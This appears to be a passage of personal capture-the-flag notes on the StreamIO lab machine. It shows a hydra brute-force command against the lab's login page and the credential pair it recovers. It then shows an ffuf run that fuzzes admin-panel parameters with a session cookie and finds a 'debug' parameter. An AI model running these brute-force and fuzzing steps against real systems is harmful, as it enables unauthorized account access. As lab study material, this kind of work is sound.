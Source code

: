 
We have a login page in http://streamio.htb/login.php
![[Screenshot 2025-04-02 at 11.38.30 PM.png]]

let's brute it with hydra

```
hydra -L users.txt -P passwords.txt streamio.htb https-post-form "/login.php:username=^USER^&password=^PASS^:F=Login failed" -V -I -t 60
```

and boom, we got the following credentials:
```
yoshihide:66boysandgirls..
```

now let's login


we got the following admin panel, lets enum other parameters, since those parameters are useless
![[Screenshot 2025-04-02 at 11.56.11 PM.png]]



```
┌──(glitch💀kali)-[~/…/HTB/labs/Machines/StreamIO]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -u https://streamio.htb/admin/?FUZZ= -b "PHPSESSID=eml4vgijrn5dade2aqmo6lb075" --fs 1678

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://streamio.htb/admin/?FUZZ=
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt
 :: Header           : Cookie: PHPSESSID=eml4vgijrn5dade2aqmo6lb075
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1678
________________________________________________

debug                   [Status: 200, Size: 1712, Words: 90, Lines: 50, Duration: 255ms]
[WARN] Caught keyboard interrupt (Ctrl-C)

```
